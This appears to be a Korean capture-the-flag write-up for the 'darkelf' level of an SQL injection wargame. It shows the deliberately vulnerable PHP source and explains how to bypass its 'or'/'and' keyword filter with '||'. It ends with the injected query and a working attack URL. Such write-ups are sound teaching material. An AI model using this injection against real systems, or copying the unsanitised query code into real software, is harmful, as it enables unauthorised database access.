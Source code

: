 # **LOS darkelf**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
`if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");` 에서 `and`와 `or` 을 검사한다. 따라서 `or` 과 같은 뜻인 `||` , `and` 와 같은 뜻인 `&` 의 hex 코드값인 `%26`를 사용하여 쿼리를 보내면 된다.
## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_darkelf where id='guest' and pw='1' || id='admin'
```

>Input value
```
http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%20||%20id=%27admin
```

## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/gremlin1.png" width="700">